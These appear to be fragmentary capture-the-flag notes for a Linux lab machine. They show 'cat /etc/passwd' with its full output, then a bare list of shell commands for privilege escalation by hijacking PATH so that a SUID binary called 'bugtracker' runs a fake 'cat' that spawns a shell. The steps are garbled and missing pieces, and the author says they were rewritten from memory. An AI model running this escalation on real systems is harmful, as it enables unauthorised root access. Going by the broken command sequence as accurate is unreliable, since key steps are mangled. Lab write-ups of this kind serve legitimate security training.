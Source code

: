 (skip this part you can see it yourself...)
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
robert:x:1000:1000:robert:/home/robert:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
________________________________________________________________________________________________________________________

### Privelege Escalation

find / -group <GROUPNAME> 2>/dev/null
ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
ls -l /usr/bin/bugtracker
id
cat /tmp/cp
/bin/sh
chmod +x cat
export PATH=/tmp:$PATH
echo $PATH
bugtracker

*** Sorry if this was not helpful but my notes were deleted so I just wrote some things I had in mind. ***

